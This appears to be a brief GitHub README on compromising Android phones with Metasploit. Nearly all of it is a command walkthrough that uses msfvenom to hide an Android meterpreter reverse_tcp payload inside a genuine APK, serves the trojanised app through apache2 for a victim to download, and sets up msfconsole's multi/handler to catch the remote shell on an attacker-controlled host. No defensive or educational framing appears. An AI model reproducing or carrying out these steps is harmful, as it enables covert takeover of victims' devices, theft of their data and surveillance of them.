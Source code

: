 # Hacking-android-device-using-metasploit
We will inject a payload inside a genuine application.
Requirements 
      -metasploit
      -msfvenom
      -apktool
      -jarsigner
      -servicesapache2
Open up your terminal and run this commands
       sudo su
       msfvenom -x application.apk -p android/meterpreter/reverse_tcp LHOST= IP ADDRESS LPORT=5555/4444 -o application.apk
       service apache2 start
       optional (mv application.apk /var/www/html) send apk to victim to download
        msfconsole
       use  exploit/multi/handler
       set payload android/meterpreter/reverse_tcp
       set LHOST I.P address
       set LPORT 5555/4444
run

